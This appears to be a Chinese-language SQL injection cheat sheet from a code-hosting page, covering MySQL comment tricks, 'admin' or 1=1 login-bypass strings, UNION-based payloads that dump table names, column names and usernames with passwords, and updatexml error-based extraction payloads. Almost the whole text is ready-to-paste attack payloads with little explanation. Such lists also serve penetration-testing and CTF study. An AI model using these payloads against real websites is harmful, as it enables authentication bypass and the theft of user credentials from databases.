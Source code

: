 * 注释方法

`#` `--+` `/* */` `/*! */` `/*!50000 */` mysql5 通用 带版本内联注释


## 注入语句

### 万能密码

```sql
'admin' or 1=1 #
'admin' or 'a'='a' or 'a'='a
```

### UNION注入

* 获取表名

```sql
'-1' union select 1,group_concat('</br>',table_name),3 from information_schema.tables where table_schema=database() %23
```

* 获取字段名

```sql
'-1' union select 1,group_concat('</br>',column_name),3 from information_schema.columns where table_schema=database() and table_name='users' %23
```

* 获取字段对应的值

```sql
'-1' union select 1,group_concat('</br>',username),group_concat('</br>',password) from users %23
```

### 报错注入

#### updataxml：

```sql
UPDATEXML (XML_document, XPath_string, new_value) 改变文档中符合条件的节点的值。
XML_document：String格式，为XML文档对象的名称。
XPath_string ：Xpath格式的字符串。
new_value：String格式，替换查找到的符合条件的数据。
```

* 获取表名

```sql
'1' and (updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)) --+
```

* 获取字段名

```sql
'1' and (updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema=database() and table_name='emails' limit 0,1),0x7e),1))--+ 
```
